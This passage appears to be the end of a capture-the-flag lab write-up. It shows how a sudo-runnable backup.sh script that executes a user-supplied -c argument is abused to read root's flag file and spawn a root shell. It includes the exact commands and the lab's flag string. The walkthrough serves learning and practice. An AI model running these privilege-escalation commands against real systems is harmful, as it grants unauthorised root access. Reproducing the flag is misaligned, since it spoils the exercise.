 ```
# Print end status message.
echo
echo "Backup finished"

cmd=$($command)
echo $cmd
```

`alex@ubuntu:/etc/mp3backups$ sudo ./backup.sh -c "echo AAAAAAAAAAAAAAAAAAAAAAAA"`

```
Backup finished
AAAAAAAAAAAAAAAAAAAAAAAA
```

`alex@ubuntu:/etc/mp3backups$ sudo ./backup.sh -c "/bin/sh"` opens a root shell, but there is no output until we exit...

`alex@ubuntu:/etc/mp3backups$ sudo ./backup.sh -c "cat /root/root.txt"`


**flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}**

### root shell

We have the flag, but how would we get an actual root shell where we can see the output?

`alex@ubuntu:/etc/mp3backups$ sudo ./backup.sh -c "/bin/bash"`

`root@ubuntu:/etc/mp3backups# exec 1> $(tty)` which redirects standard output into the terminal.
